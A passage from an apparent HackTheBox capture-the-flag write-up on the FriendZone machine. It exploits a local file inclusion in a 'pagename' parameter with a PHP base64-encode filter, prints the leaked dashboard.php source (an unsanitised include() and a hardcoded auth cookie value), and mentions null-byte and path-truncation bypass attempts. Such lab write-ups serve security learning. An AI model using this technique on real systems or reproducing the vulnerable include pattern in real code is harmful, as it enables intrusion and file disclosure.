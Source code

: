 There's an LFI in the `pagename` parameter and I can use a PHP base64 encode filter to read files:

Request: `https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=pagename=php://filter/convert.base64-encode/resource=dashboard`

![](/assets/images/htb-writeup-friendzone/dashboard_lfi.png)

The base64 encoded text is the source code for `dashboard.php`:

```php
<?php

//echo "<center><h2>Smart photo script for friendzone corp !</h2></center>";
//echo "<center><h3>* Note : we are dealing with a beginner php developer and the application is not tested yet !</h3></center>";
echo "<title>FriendZone Admin !</title>";
$auth = $_COOKIE["FriendZoneAuth"];

if ($auth === "e7749d0f4b4da5d03e6e9196fd1d18f1"){
 echo "<br><br><br>";

echo "<center><h2>Smart photo script for friendzone corp !</h2></center>";
echo "<center><h3>* Note : we are dealing with a beginner php developer and the application is not tested yet !</h3></center>";

if(!isset($_GET["image_id"])){
  echo "<br><br>";
  echo "<center><p>image_name param is missed !</p></center>";
  echo "<center><p>please enter it to show the image</p></center>";
  echo "<center><p>default is image_id=a.jpg&pagename=timestamp</p></center>";
 }else{
 $image = $_GET["image_id"];
 echo "<center><img src='images/$image'></center>";

 echo "<center><h1>Something went worng ! , the script include wrong param !</h1></center>";
 include($_GET["pagename"].".php");
 //echo $_GET["pagename"];
 }
}else{
echo "<center><p>You can't see the content ! , please login !</center></p>";
}
?>
```

The `.php` suffix is added automatically after the filename so I can't arbitrarily read any files. I tried the PHP path truncation technique as well as adding null bytes at the end of string but I was not able to bypass this.
